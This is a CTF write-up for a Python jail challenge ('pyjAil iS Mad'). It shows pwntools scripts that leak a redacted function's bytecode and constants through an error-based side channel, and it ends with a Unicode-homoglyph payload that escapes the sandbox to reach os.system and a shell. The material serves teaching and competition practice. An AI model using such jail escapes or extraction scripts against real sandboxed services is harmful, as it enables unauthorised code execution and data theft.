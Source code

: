 # pyjAil iS Mad

### Category

Misc

### Description

The pyjail isn't designed to pop a shell, or read a file. Just recover the redacted part of the source code.


**Host** : misc.heroctf.fr<br>
**Port** : 6000


Format : **Hero{flag}**<br>
Author : **Log_s**

### Files

- [pyjail_redacted.py](pyjail_redacted.py)

### Write up

Our goal is to recover the `flag()` function that was redacted.

Notice that flag is the only function that is loaded in the environment where the user commands are ran.
```python
exec(user_input, {"__builtins__": {}}, {'flag':flag})
```

It's indeed possible to execute it, not like every other functions.
```
$ ./pyjail.py                                                                    
>> print
You thought I would print errors for u ?
>> flag
>> flag()
```

There is no output though.

There are ways to recover a python function's code, but it requires importing a library, which is not possible here.

It's howerver possible to recover the `__code__` object from a function.

Here is an example:
```
>>> def test():
...     return 1+1
... 
>>> dir(test)
['__annotations__', '__builtins__', '__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__get__', '__getattribute__', '__globals__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__kwdefaults__', '__le__', '__lt__', '__module__', '__name__', '__ne__', '__new__', '__qualname__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__']
>>> test.__code__.co_code
b'd\x01S\x00'
```

The last line is the assembly code corresponding to the function `test()`.
For exemple, the first byte which is translated to `d` corresponds to the opcode 0x64, which is LOAD_CONST (ord(d) == 100 == 0x64). The second one indicated to load the consts at index 0x01 (which is 2), and the last one (ord(S) == 0x53) is the opcode for RETURN_VALUE.

If we try this in the jail, no error is risen, but we don't have any output either. Indeed, the jail excutes the code, but does not print anything, and the print function is not available to us.

The way here, is to extract the data character by character, by triggering and error when the right one is found, with an input like this one.

```python
if flag.__code__.co_code[0]==0x64:1/0
```

Example in the jail:
```
>> if flag.__code__.co_code[0]==0x64:1/0
You thought I would print errors for u ?
>> if flag.__code__.co_code[0]==0x65:1/0
>>
```
The error is risen for 0x64 value, which is the first byte of the assembly code.

Let's extract the entire assembly code:
```python
from pwn import *

p = process("./pyjail.py")
p.recvuntil(b">> ")

### Extract assembly code
asm_code, found, index = [], True, 0
while found:
    for x in range(256):
        found = False
        p.sendline(f"if flag.__code__.co_code[{index}]=={x}:1/0".encode())
        res = p.recvuntil(b">> ").decode()
        if "errors" in res:
            # If error on opcode 0, check the next to see if the error is because we found the correct opcode
            # or because of index error
            if x == 0:
                p.sendline(f"if flag.__code__.co_code[{index}]=={x+1}:1/0".encode())
                res = p.recvuntil(b">> ").decode()
                if "errors" in res:
                    found = False
                    break
            asm_code.append(hex(x))
            found = True
            break
    index += 1

print(asm_code)
```

If you take a look at the outputed assembly, there are a lot of LOAD_CONST calls (0x64).
```
['0x64', '0x1', '0x7d', '0x0', '0x64', '0x2', '0x7d', '0x0', '0x64', '0x3', '0x7d', '0x0', '0x64', '0x4', '0x7d', '0x0', '0x64', '0x5', '0x7d', '0x0', '0x64', '0x6', '0x7d', '0x0', '0x64', '0x7', '0x7d', '0x0', '0x64', '0x8', '0x7d', '0x0', '0x64', '0x9', '0x7d', '0x0', '0x64', '0xa', '0x7d', '0x0', '0x64', '0xb', '0x7d', '0x0', '0x64', '0xc', '0x7d', '0x0', '0x64', '0xd', '0x7d', '0x0', '0x64', '0xe', '0x7d', '0x0', '0x64', '0xf', '0x7d', '0x0', '0x64', '0x10', '0x7d', '0x0', '0x64', '0x11', '0x7d', '0x0', '0x64', '0x0', '0x53', '0x0']
```

The referred consts are stored in the `co_consts` attribute of the `__code__` object.

Let's extract them in a similar way:
```python
asm_consts, found, index = [], True, 1
charset = string.ascii_letters + string.digits + "_{}" # Typicall flag charset
while found:
    for x in range(len(charset)):
        found = False
        p.sendline(f"if flag.__code__.co_consts[{index}][0]=='{charset[x]}':1/0".encode())
        res = p.recvuntil(b">> ").decode()
        if "errors" in res:
            # If error on opcode 0, check the next to see if the error is because we found the correct opcode
            # or because of index error
            if x == 0:
                p.sendline(f"if flag.__code__.co_consts[{index}][0]=='{charset[x+1]}':1/0".encode())
                res = p.recvuntil(b">> ").decode()
                if "errors" in res:
                    found = False
                    break
            asm_consts.append(charset[x])
            found = True
            break
    index += 1

print("".join(asm_consts))
```

By only doing this, the result is `Hero{pyh0n_4s3ly}`. It doesn't validate the challenge, and there seems to be some characters missing.

The consts are actually more than one char long (yes I am evil).

Let's tweak the code a bit
```python
asm_consts, found, index, round_with_0_char = [], True, 1, 0
charset = string.ascii_letters + string.digits + "_{}" # Typicall flag charset
while True:
    offset = 0
    valid_offset = True
    while valid_offset:
        for x in range(len(charset)+1):
            found = False
            p.sendline(f"if flag.__code__.co_consts[{index}][{offset}]=='{charset[x]}':1/0".encode())
            res = p.recvuntil(b">> ").decode()
            if "errors" in res:
                # If error on opcode 0, check the next to see if the error is because we found the correct opcode
                # or because of index error
                if x == 0:
                    p.sendline(f"if flag.__code__.co_consts[{index}][{offset}]=='{charset[x+1]}':1/0".encode())
                    res = p.recvuntil(b">> ").decode()
                    if "errors" in res:
                        round_with_0_char += 1
                        valid_offset = False
                        break
                asm_consts.append(charset[x])
                offset += 1
                round_with_0_char = 0
                break
    index += 1
    if round_with_0_char == 2:
        break

print("".join(asm_consts))
```

The code is almost the same. The only difference in the usage of the `round_with_0_char` that checks if we did 2 loops that outputed 0 chars (in which case we are at the end of the co_consts n-uple).

Well done ! Maybe next time you'll get to reverse some python assembly code ;).


NB: There was an alternante way to flag. I forgot to check for non-ascii filter bypass ;). Something like this allowed to get a shell on the server and juste print the source code.
```
[*().__𝔠𝔩𝔞𝔰𝔰__.__𝔟𝔞𝔰𝔢__.__𝔰𝔲𝔟𝔠𝔩𝔞𝔰𝔰𝔢𝔰__()[81].__𝔦𝔫𝔦𝔱__.__𝔤𝔩𝔬𝔟𝔞𝔩𝔰__.𝔳𝔞𝔩𝔲𝔢𝔰()][54].𝔪𝔬𝔡𝔲𝔩𝔢𝔰[().__𝔡𝔬𝔠__[34]+().__𝔡𝔬𝔠__[19]].𝔰𝔶𝔰𝔱𝔢𝔪([].__𝔡𝔬𝔠__[17]+[].__𝔡𝔬𝔠__[54])
```

### Flag

```
Hero{pyth0n_4ss3mbly}
```

